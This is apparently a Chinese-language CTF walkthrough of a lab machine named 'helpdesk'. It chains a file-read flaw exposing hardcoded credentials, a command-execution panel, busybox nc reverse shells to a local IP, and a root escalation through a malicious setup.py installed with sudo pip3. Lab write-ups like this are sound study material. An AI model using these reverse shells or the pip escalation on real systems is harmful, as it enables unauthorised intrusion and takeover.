# helpdesk


扫一下目录

debug.php返回了认证信息service_user:SuperSecretDev123!

拿去登录不上
看了下别人的做法做了参数的fuzz(自己压根没有这个意识),debug属于是误导
ticket.php?url=
是一个文件读取,读取login的源码
```
// Stored credentials
$stored_user = 'helpdesk';

// SHA-512 hash for password: ticketmaster
$stored_hash = '$6$ABC123$fLo2MacCV.XBQeRZtHWL2297q/fUBs/b8gOmvLGuiz7wDgl3MSWcOOSKnTbaNPoUMCmEpY1dlwuPKbAtIuoo6.';

// Handle login
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = $_POST['username'] ?? '';
    $pass = $_POST['password'] ?? '';

    if ($user === $stored_user && crypt($pass, $stored_hash) === $stored_hash) {
        $_SESSION['auth'] = true;
        header("Location: panel.php");
        exit;
    } else {
        $error = "Invalid username or password.";
    }
}
?>
```
直接获取到密码凭证helpdesk:ticketmaster
登录后是一个命令执行,查看源代码也能看到
```
session_start();

// Redirect to login if not authenticated
if (!isset($_SESSION['auth']) || $_SESSION['auth'] !== true) {
    header("Location: login.php");
    exit;
}

// Handle command input
$output = "";
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    $output = shell_exec($cmd . " 2>&1");
}
```
直接拿取shell

```
busybox nc 192.168.56.108 5555 -e /bin/bash
```

查看机器上的进程,发现可以执行命令的文件,且权限为777

也就是说需要连接套接字文件是就会触发这个脚本
```
socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
	
nc -U /opt/helpdesk-socket/helpdesk.sock
```

那么就直接用/bin/bash获取helpdesk的shell

翻看特权命令
/usr/bin/pip3 install --break-system-packages是一个“绕过安全限制，强制在系统全局环境安装包”的命令
搜索pip install 

在/tmp目录下创建目录root其中放入setu.py文件
内容是获取root的shell
```
echo 'import os; os.system("busybox nc 192.168.56.108 6666 -e/bin/bash")' > setup.py
```
执行命令
```
sudo /usr/bin/pip3 install --break-system-packages .
```



在本地开启了8000端口,用ssh将端口转发出来


是一个python的web服务
